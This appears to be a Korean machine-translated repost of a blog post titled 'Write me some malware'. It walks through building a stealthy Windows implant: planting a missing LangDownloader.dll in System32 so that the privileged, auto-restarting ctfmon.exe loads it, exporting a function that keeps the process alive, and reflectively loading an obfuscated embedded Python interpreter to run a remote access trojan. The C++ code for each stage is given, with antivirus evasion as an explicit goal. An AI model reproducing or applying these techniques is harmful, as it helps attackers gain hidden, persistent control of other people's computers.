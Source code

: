 ```yaml
---
title: "제발 합법적인 방식으로 지식을 확장하거나 온라인 커뮤니티에서 도움을 받아보는 것을 고려해보세요 안전한 온라인 활동이 중요하며 악의적인 목적으로 행동하는 것은 부디 자제해 주세요 함께 안전한 인터넷 환경을 만들어 나갈 수 있기를 바랍니다"
description: ""
coverImage: "/assets/img/2024-06-19-Writemesomemalware_0.png"
date: 2024-06-19 01:15
ogImage: 
  url: /assets/img/2024-06-19-Writemesomemalware_0.png
tag: Tech
originalTitle: "Write me some malware"
link: "https://medium.com/@shaharb02/write-me-some-malware-fbfd131db495"
---
```



(연구 목적으로만 사용)

# 이루고 싶은 것:

# 어떻게 로드할 것인가:

Windows에는 ctfmon.exe라는 멋진 프로세스가 있습니다. 이 프로세스를 좋아하는 이유가 몇 가지 있어요.

<div class="content-ad"></div>

```markdown
![이미지](/assets/img/2024-06-19-Writemesomemalware_0.png)

- 높은 권한에서 실행됩니다.
- 충돌/중단 시 다시 시작하는 서비스가 있습니다.
- 모든 Windows 컴퓨터에서 실행됩니다.
```

<div class="content-ad"></div>

해당 프로세스 내에서 실행하고 싶긴 한데, 어떻게 해야할지가 문제야.

"virtual alloc — create remote thread" 방법으로 내 자신을 주입할 수 있지만, 안티바이러스들이 이미 알고 있고 그 방법은 너무 2012년식이야. 더 나은 방법을 고민해봐야겠어.

## ctfmon.exe에 로드하는 멋진 방법 찾기

Procmon을 실행하고 ctfmon.exe를 다시 시작해서 무슨 일을 하는지 확인해봐.

<div class="content-ad"></div>

```markdown
<img src="/assets/img/2024-06-19-Writemesomemalware_1.png" />

음... ctfmon.exe이 LangDownloader.dll이라는 동적 라이브러리를 로드하려고 하는 것 같지만 찾을 수 없네요. 제 컴퓨터에 있는지 확인해보겠습니다.

<img src="/assets/img/2024-06-19-Writemesomemalware_2.png" />

LangDownloader.dll이 없습니다... 하나 만들어 시스템32에 넣어 ctfmon.exe를 다시 시작해보겠습니다.
```

<div class="content-ad"></div>

```js
BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {

    case DLL_PROCESS_ATTACH:
        {
        MessageBoxA(0, std::to_string(GetCurrentProcessId()).c_str(), 0, 0);
        break;
        }
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

메시지 상자를 표시하지만 ctfmon.exe가 종료됩니다. 무언가 잘못하고 있는 것 같아요 :(

LangDownloader.dll이 어떻게 로드되는지 자세히 파악하여 더 나은 모방을 하고 충돌을 방지하고 싶어요. ctfmon.exe를 좀 더 자세히 살펴보는 것이 가장 좋은 방법인 것 같아요.

![이미지](/assets/img/2024-06-19-Writemesomemalware_3.png)
```

<div class="content-ad"></div>

이 static imports만 있는 것을 볼 수 있습니다. LangDownloader.dll은 여기 없는데요... 어디서 불러오는 걸까요?

Procmon으로 돌아가보면 무언가를 발견할 수도 있을 거에요

![image](/assets/img/2024-06-19-Writemesomemalware_4.png)

여기 보세요. InputLocaleManager.dll을 불러오고 있네요. 이 파일을 조사해봅시다.

<div class="content-ad"></div>

해당 문자열을 찾았습니다!

![image](/assets/img/2024-06-19-Writemesomemalware_5.png)

여기서 잘 로드되고 있네요. 이제 뭘 할까요?

![image](/assets/img/2024-06-19-Writemesomemalware_6.png)

<div class="content-ad"></div>

한번 확대해볼까요? 저희에게 pdb 파일이 있어요 (:

![image 1](/assets/img/2024-06-19-Writemesomemalware_7.png)

![image 2](/assets/img/2024-06-19-Writemesomemalware_8.png)

이 코드를 한 번 분석해 봐요.

<div class="content-ad"></div>

```js
• LangDownloader.dll을로드하려고 시도합니다.
• 실패하는 경우
  - “종료”로 계속 진행합니다.
• 성공하는 경우
  - LangDownloaderCreate의 주소를 가져오려고 시도합니다.
  - 실패하는 경우
     프로세스 종료
  - 성공하는 경우
     매개변수와 함께 LangDownloaderCreate를 호출합니다
```

지금까지 잘 됐어요. 이것은 왜 ctfmon.exe가 실행할 LangDownloader.dll이라는 임의의 .dll을 제공했을 때 충돌했는지를 설명합니다.

<img src="/assets/img/2024-06-19-Writemesomemalware_9.png" />

우리는 0보다 작고 0x800700E와 다른 숫자를 반환하면 우리는 그냥 계속 진행할 것임을 볼 수 있습니다... 내가 신경 쓰지 않으니까 무한 대기를 해봅시다.
```

<div class="content-ad"></div>

```js
extern "C" __declspec(dllexport) int LangDownloaderCreate(int a, int b)
{
    // 영원히 기다려요
    HANDLE never_set = CreateEventA(NULL, TRUE, FALSE, NULL);
    WaitForSingleObject(never_set, INFINITE);

    return -1;
}
```

알겠어요!

![이미지](/assets/img/2024-06-19-Writemesomemalware_10.png)

이제 실행 중이니까... 뭘 하고 싶어요?

<div class="content-ad"></div>

# 무엇을 실행할까요:

제 .dll 내부에 인터프리터를 실행하고 싶어요... 파이썬이 어떻게 하는지 살펴봐요

배운 바에 의하면, 파이썬은 python`버전`.dll을 사용해서 모든 파이썬 작업을 처리해요

이 .dll을 멋지게 C++ 인터페이스로 감싸봐요

<div class="content-ad"></div>

```js
class PythonInterpreter
{
public:
    explicit PythonInterpreter();
    ~PythonInterpreter();

    NO_DISCARD void* run_line(const std::string& line);

    // Deleted Functions
    PythonInterpreter(const PythonInterpreter& other) = delete;
    PythonInterpreter(PythonInterpreter&& other) = delete;
    PythonInterpreter& operator=(const PythonInterpreter& other) = delete;
    PythonInterpreter& operator=(PythonInterpreter&& other) = delete;

private:
    using PyObject = int;

    using PyInitializeType = void (*)();
    using PyFinalizeType = void (*)();
    using PyRunSimpleStringType = PyObject * (*)(const char* str);

    // Members
    DynamicLibrary m_python_interpreter_library;
    PyInitializeType m_initialize;
    PyFinalizeType m_finalize;
    PyRunSimpleStringType m_run_simple_string;
};

PythonInterpreter::PythonInterpreter() :
    m_python_interpreter_library(WindowsResource::get_resource(GetModuleHandleA(OBFUSCATE("LangDownloader.dll")),
                                                               IDR_BINARY1,
                                                               OBFUSCATE("Binary"))),
    m_initialize(static_cast<PyInitializeType>(m_python_interpreter_library.get_function(OBFUSCATE("Py_Initialize")))),
    m_finalize(static_cast<PyFinalizeType>(m_python_interpreter_library.get_function(OBFUSCATE("Py_Finalize")))),
    m_run_simple_string(static_cast<PyRunSimpleStringType>(m_python_interpreter_library.get_function(OBFUSCATE("PyRun_SimpleString"))))
{
    m_initialize();
}
```

이제 적절한 파이썬 인터프리터가 준비되어 있으므로, LangDownlder.dll에 통합하여 반사적으로 로드할 수 있습니다.

DynamicLibrary 클래스를 만들어야 합니다.

```js
class DynamicLibrary
{
public:
    explicit DynamicLibrary(ByteSpan library_binary);
    ~DynamicLibrary();

    NO_DISCARD void* get_function(const std::string& function_name);

    // Deleted Functions
    DynamicLibrary(const DynamicLibrary& other) = delete;
    DynamicLibrary(DynamicLibrary&& other) = delete;
    DynamicLibrary& operator=(const DynamicLibrary& other) = delete;
    DynamicLibrary& operator=(DynamicLibrary&& other) = delete;

private:
    NO_DISCARD static HMEMORYMODULE load_library(ByteSpan library_binary);

    // Members
    HMEMORYMODULE m_library_base;
};
```

<div class="content-ad"></div>

이제 ctfmon.exe 내부에 파이썬 인터프리터가 있습니다!

![이미지](/assets/img/2024-06-19-Writemesomemalware_11.png)

정말 멋지죠? 

이제 남은 일은 파이썬으로 RAT을 작성하는 것뿐입니다.

<div class="content-ad"></div>

미안해요! 전손을 올립니다(:

![Image](/assets/img/2024-06-19-Writemesomemalware_12.png)